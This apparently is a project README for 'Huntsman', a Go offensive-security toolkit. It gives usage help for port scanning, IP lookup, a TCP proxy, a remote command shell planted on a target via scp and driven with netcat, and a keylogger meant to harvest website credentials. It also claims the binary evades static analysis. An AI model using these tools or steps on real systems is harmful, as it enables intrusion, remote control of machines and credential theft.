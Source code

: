 ```yaml
---
title: "Huntsman: A swiss army knife for offensive security"
date: 2020-07-26T13:53:35+05:30
draft: false
---
```

# Huntsman
A swiss army knife for offensive security.  
https://souvikhaldar.github.io/huntsman/

![](huntsman-main.jpg)


# Inspiration
The inspiration of this tool are primarily the following two sources:
1. Pursuing [Advanced Exercutive Program in Cyber Security and Cyber Defense](https://talentsprint.com/pages/wip/iit-kanpur/v2.5/index.html) at the esteemed [c3i](https://security.cse.iitk.ac.in/) institution of [IIT Kanpur](https://www.iitk.ac.in/) and Professor [Sandeep Shukla](https://www.cse.iitk.ac.in/users/sandeeps/), [Rohit Negi](https://www.linkedin.com/in/rohit-negi-02856227/) and [Anand Handa](https://www.linkedin.com/in/anand-handa-391a61107/), who helped take baby steps in cyber security world.  
2. The excellent book [Black Hat Go: Go Programming For Hackers and Pentesters](https://www.amazon.in/Black-Hat-Go-Programming-Pentesters-ebook/dp/B073NPY29N) by Tom Steele, Chris Patten and Dan Kottmann. 


# What sets huntsman apart?
* Fast and concurrent
* Single binary executable for almost every platform and architecture
* Consumes very less RAM (about 10-15 MB) and CPU  
* Each step well documented and covered in video tutorial as well 
* The binary compiled it Golang is very hard to reverse engineer, hence it is
safe from Static Analysis to a large extent.  


# Complete Guide
		

# Installation
There multiple ways in which you can install `huntsman` on your machine or a target machine.  

1. Install it using golang compiler using `go install` or `go build`
	
	1. [Install Golang](https://golang.org/doc/install)    
	2. `git clone git@github.com:souvikhaldar/huntsman.git`
	3. `cd huntsman`  
	4. `go install`  
2. Download the binary from RELEASES and save it on on `$PATH`.  
3. Use the `goinstaller.py` script.  
	```
	./goinstaller.py --help 
	Install go program for multiple OS and multiple architectures
	Run goinstaller.py --help for all options
	usage: goinstaller.py [-h]
			      [--os {all,popular,linux,darwin,windows,dragonfly,android,freebsd,netbsd,openbsd,plan9,solaris,aixjs}]
			      [--arch {all,popular,amd64,386,arm,ppc64,arm64,ppc64le,mips,mipsle,mips64,mips64le,s390x}]
			      [--source SOURCE] [--target TARGET]

	optional arguments:
	  -h, --help            show this help message and exit
	  --os {all,popular,linux,darwin,windows,dragonfly,android,freebsd,netbsd,openbsd,plan9,solaris,aixjs}
				The target OS. Eg. all,linux,darwin,windows,etc
	  --arch {all,popular,amd64,386,arm,ppc64,arm64,ppc64le,mips,mipsle,mips64,mips64le,s390x}
				The target's architecture. Eg. all,amd64,386,etc
	  --source SOURCE       The directory where source source is present
	  --target TARGET       The target dir where the binary needs to be stored
	```

	Eg. Compiling for **popular** OSes like Windows, Microsoft and Linux for 64-bit architecture can be done using
	`./goinstaller.py --target ./download --os popular --arch amd64`


# Transfer to a target
Once you've compiled huntsman for the target OS and arch, you can transfer it 
using `scp` or any tool of choice:  
Eg, transfering linux binary to target machine:  
`scp ./download/linux_amd64 username@address:location`


# Setup
Some tools allow you to store the information on the database, like IP location tracing.  
If you want the same, you have to set the configuration for the same in `config.json` at
the root and provide the following information:   

```
{
  "mongo_uri": "uri of the mongo atlas",
  "mongo_username":"usename",
  "mongo_password":"password",
  "mongo_database":"database name",
  "mongo_collection":"collection name",
  "js_file_path":"path to js file for serving reverse shell"
}
```

# Fast concurrent port scanning  
``` 
huntsman portscan --help                                                                                    SIGINT(2) ↵  5295  10:30:46
Concurrently scan the provided range (by default 0 to 65535) to check if any port is open

Usage:
  huntsman portscan [flags]

Flags:
  -e, --end int32       last port number (default 65535)
  -h, --help            help for portscan
  -s, --start int32     starting port number (default 1)
      --target string   IP/URL address of the machine to be scanned
  -t, --threads int32   the number of goroutines to execute at a time (default 100)

```

Example:  
`huntsman portScan --target abc.com`  

# Location details of IP or tcpdump  
```
huntsman ipinfo --help                                                                                              ✔  5244  03:05:00
Fetch the location information of the IP

Usage:
  huntsman ipinfo [flags]

Flags:
  -c, --config string     The path to the configuration JSON file
  -h, --help              help for ipinfo
      --ip string         IP address of the target
  -p, --persist           Do you want to store the response to mongo? If yes, please provide value to --config flag
  -s, --read-stream       Do you want to read from tcpdump output contineously?
  -t, --tcp-dump string   source file of tcpdump
```

There are three ways you can lookup location details of IP.
1. Lookup single IP or domain name. Eg. `huntsman ipinfo --ip netflix.com`  
2. Parse `tcpdump` log. Eg. `huntsman ipinfo --tcp-dump server.log`  
3. See the location details of incoming traffic in real tim. `huntsman ipinfo -s`   
If you want to store it to db, you can provide details in `config.json` at root dir, then use `huntsman ipinfo -s -p -c config.json`  
[Youtube link for the video demonstration](https://youtu.be/rdE3cGBT_wA)


# Run a TCP proxy

`huntsman proxy -s <local-port> -t <target-address> -p <target-port>`   

# Run a TCP listener

`huntsman listen --port=<port>`


# Reverse shell
First you need to compile the binary for the target machine using the 
`goinstaller.py` or anything of choice. Then preferably use `scp` to transfer
the binary to the target machine (see `Installation` section) then execute it
using `./<binary-name> reverseshell --port <port-number>`. Now the listener is
running to which you will be sending instructions to execute.   

We will be using [netcat](http://netcat.sourceforge.net/) as the client for 
sending the commands over the network.  
`nc <address-of-target> <port-number>`  
[Youtube link for the video demonstration](https://youtu.be/eE0k0GVZXyc)

# Keylogger 
A keylogger can log the keystrokes made by a user ,typically on a website. The logged keystrokes most of the times are crucial credentials of the users. Hackers use Credential Harvester (like keylogger) to steal your credentials.
Huntsman is the tool that contains a keylogger as well.    
Eg. `huntsman keylogger -w localhost:8192 -l 8192`   

This video is the demonstration for using huntsman as a keylogger. [Link to youtube video](https://youtu.be/BoPICq1MVhA)



